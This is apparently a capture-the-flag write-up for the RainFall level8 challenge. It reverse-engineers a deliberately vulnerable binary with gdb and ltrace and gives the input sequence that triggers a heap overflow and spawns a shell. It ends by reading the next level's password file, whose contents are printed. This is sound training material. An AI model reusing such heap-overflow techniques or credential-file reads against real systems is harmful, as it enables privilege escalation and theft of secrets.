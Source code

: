 # Level8

## Objective

The goal of Level 9 is to escalate from `level8` to `level9` by abusing how the `level8` binary manages heap allocations. By carefully using the available commands (`auth`, `reset`, `service`, and `login`), we can trigger the program to call `system("/bin/sh")` and gain a shell.

---

## Step 1: Examine the Binary

After switching to `level8`
Running the binary:

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
hello
(nil), (nil)
```

When we use ltrace we can see a printf()
```bash
printf(%p, %p\n, (nil), (nil)(nil), (nil)) = 14;
```

Input is read with `fgets()`.

Then we can try to use info variables,

```bash
(gdb) info variables
All defined variables:
Non-debugging symbols:

0x08049aac  auth
0x08049ab0  service

```
Here we can see that there's two variables and theirs adresses. 
The printf  prints two pointers `(auth, service)`, both initially `nil`.
they're read by fgets and stocked in locol memory at 0x20%esp

---

## Step 2: Reverse Engineer the Commands

Disassembly of `main()` reveals 4 comparaisons to adresses that can be read like this (this is the first one) :

```bash
0x080485b5 <+81>:	je     0x804872c <main+456>
   0x080485bb <+87>:	lea    0x20(%esp),%eax
   0x080485bf <+91>:	mov    %eax,%edx
   0x080485c1 <+93>:	mov    $0x8048819,%eax
   0x080485c6 <+98>:	mov    $0x5,%ecx
   0x080485cb <+103>:	mov    %edx,%esi
   0x080485cd <+105>:	mov    %eax,%edi
   0x080485cf <+107>:	repz cmpsb %es:(%edi),%ds:(%esi)


```
<+87><+91>The part of the main says that 0x20(%esp) refers to fgets() (stdin), then this address is copied in EDX
<+93>After that we load 0x8048819 (using gdb x/s we read `auth` for this address) in EAX,
<+98>ECX is set to 5 (its the number max of caracter comparisons).
<+103><+105> setting registers for cmpsb, ESI is the entry, EDI is the auth string.
<+107> Is similar to strncmp() function, it comp byte by byte the pointed string ESI (input user) and the EDI one ("auth")

Its done for four string and each on them has functionsstarting if the comparison is good.

* `auth <data>` → calls `malloc(4)` and `strcpy()` into the global `auth` pointer.
> Here an object is created and stockes the stdin 
* `reset` → frees the `auth` pointer.
* `service <data>` → calls `strdup()` and copies into the global `service` pointer.
* `login` → if `auth[32] != 0`, it calls `system("/bin/sh")`. Otherwise, it calls `fwrite()`.
> Checks is there's somthing at the ofset, if so it runs the exec syscall.

Thus, the game plan is to get `auth[32]` set to something non-zero.

---

## Step 3: Heap Behavior

Heap allocations are sequential in memory. Testing shows:

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
```

Here `auth` is at `0x804a008` and `service` is exactly 16 bytes later. With padding, we can arrange things so that writing into `service` overflows into `auth[32]`.

---

## Step 4: Exploit Strategy

**SolutionSingle `service` overflow:**

* Create `auth` → allocates 4 bytes.
* Create `service` with a payload long enough to cover the 16-byte padding and reach `auth+32`.

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
serviceabcdefgehijklmno
0x804a008, 0x804a018
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

**End of Level8 Walkthrough**


